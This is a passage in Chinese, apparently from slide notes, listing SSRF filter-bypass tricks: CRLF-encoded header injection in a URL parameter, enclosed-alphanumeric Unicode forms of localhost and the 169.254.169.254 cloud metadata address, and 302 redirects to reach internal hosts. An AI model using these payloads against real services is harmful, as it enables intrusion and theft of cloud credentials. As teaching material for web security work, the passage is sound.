

7、CRLF 编码绕过
%0d->0x0d->\r回车
%0a->0x0a->\n换行
进行HTTP头部注入
example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a

8.利用封闭的字母数字
利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
List:
ⓛⓞⓒⓐⓛⓗⓞⓢⓣ
⓵⓶⓻。
① ② ⑦. ⓪ .⓪. ①

9.302跳转
先让靶机访问自己服务器上的一个url，这个url会进行302重定向，从而请求恶意地址。可以用这种方法来绕过限制请求只为http协议的。